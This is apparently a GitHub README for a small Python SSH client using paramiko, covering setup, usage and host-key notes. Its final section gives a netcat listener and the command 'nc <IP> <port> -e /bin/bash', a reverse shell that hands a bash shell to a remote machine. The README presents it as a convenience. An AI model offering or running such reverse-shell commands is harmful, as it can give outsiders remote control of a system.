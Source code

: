 # SSH Client 

## Overview
This is a simple SSH client written in Python using the `paramiko` library. It allows users to connect to a remote server via SSH, execute commands, and receive output directly in the terminal.

## Features
- Connects to a remote host via SSH
- Allows execution of shell commands
- Displays command output and error messages
- Supports connection to `localhost`
- Exits cleanly when `exit` is entered

## Requirements
- Python 3.x
- `paramiko` library (install using `pip install paramiko`)

## Installation
1. Clone this repository or download the script.
2. Ensure you have Python installed.
3. Install the required dependency:

   ```sh
   pip install paramiko
   ```

## Usage
1. Run the script:

   ```sh
   python script.py
   ```
3. Enter the required connection details:
   - **IP Address** (Press ENTER for localhost)
   - **Username**
   - **Password**
4. After connecting, you can enter commands to execute on the remote server.
5. Type `exit` to close the connection.

## Example (running on PyCharm Community)

<p align="center">
<img src="https://github.com/user-attachments/assets/7dbdb5a0-7105-4224-a976-1fbea907d5c2" alt="" width="1000">
</p>


## Notes
- Ensure SSH is enabled on the target machine.
  You can use the following commands:
  
  ```
  sudo systemctl start ssh
  ssh user@127.0.01
  ```
- The script uses `AutoAddPolicy` to accept unknown hosts automatically.
- It is recommended to use SSH keys instead of passwords for better security.

## Additional Method Using Netcat
You can also use Netcat to execute commands directly from a Linux terminal.

1. After starting the ssh client, run the following command in the Linux terminal:

   ```sh
   nc -lvp <port>
   ```
3. Then enter the following command in the PyCharm terminal:

   ```sh
   nc <IP> <port> -e /bin/bash
   ```
5. Press Enter to establish the connection.

## Example (Netcat listening on Linux terminal):

<p align="center">
<img src="https://github.com/user-attachments/assets/e036fc61-604d-4747-a493-796bf92fe94b" alt="" width="500">
</p>




